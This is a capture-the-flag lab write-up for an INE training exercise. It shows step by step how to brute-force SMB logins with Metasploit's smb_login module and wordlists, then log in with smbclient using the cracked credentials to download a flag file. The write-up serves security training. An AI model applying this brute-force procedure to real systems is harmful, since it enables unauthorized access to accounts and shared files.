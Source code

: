 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use Metasploit to brute force SMB credentials using user and password wordlists. Once valid credentials are found, access the SMB share and retrieve the flag.

---

## Tools Used

- Metasploit (`msfconsole`)
- Wordlists (`users.txt` and `unix_passwords.txt`)
- `smbclient` to access shares after cracking

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```

### 🔹 Step 2: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```

### 🔹 Step 3: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```

### 🔹 Step 4: Valid Credentials Found
```yaml
josh : purple
```

### 🔹 Step 5: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```

### 🔹 Step 6: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```

Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 6.png (steps of the challenge)
